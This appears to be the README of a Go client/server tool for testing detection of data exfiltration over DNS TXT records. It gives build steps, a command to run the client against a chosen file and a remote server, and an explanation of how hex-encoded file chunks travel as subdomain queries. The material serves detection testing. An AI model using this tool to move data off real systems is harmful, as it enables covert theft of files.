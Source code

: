 # dns-TXT-exfi-test
Simple client/server in golang to help with testing data exfil detections over DNS TXT records. Note: this utility is intended for detections testing rather than for use in red team operations, as this does not contain opsec controls (uses simple hex encoding).

## Steps:
On Server Host:

1. > git clone https://github.com/cedowens/dns-TXT-exfil-test

2. > cd dns-TXT-exfil-test/server

3. > go get github.com/miekg/dns

4. > go build

5. > ./server


On Client Host:

1. > git clone https://github.com/cedowens/dns-TXT-exfil-test

2. > cd dns-TXT-exfil-test/client

3. > sed -i -e 's|10.10.10.10|IP_OF_YOUR_SERVER_HOST|g' client.go

4. > go build

5. > ./client [path_to_file_to_exfil]

------------

## Under The Hood

From a detections perspective, this is how this tool works:

1. The client takes the file, breaks it into 50 character hex encoded chunks

2. The client then takes each 50 character chunk and sends it in a DNS TXT record request as follows:

`[hex_file_data].macconsultants.com,  TYPE: TXT, CLASS IN`

3. The server takes each 50 character hex encoded chunk, unhexlifies it, and writes it to a file in the current directory named "outfile"

4. The server also sends a TXT answer to that query as follows:

`[hex_file_data].macconsultants.com, TYPE TXT, CLASS IN`


This can be a helpful way to validate any detections around suspicious DNS TXT traffic
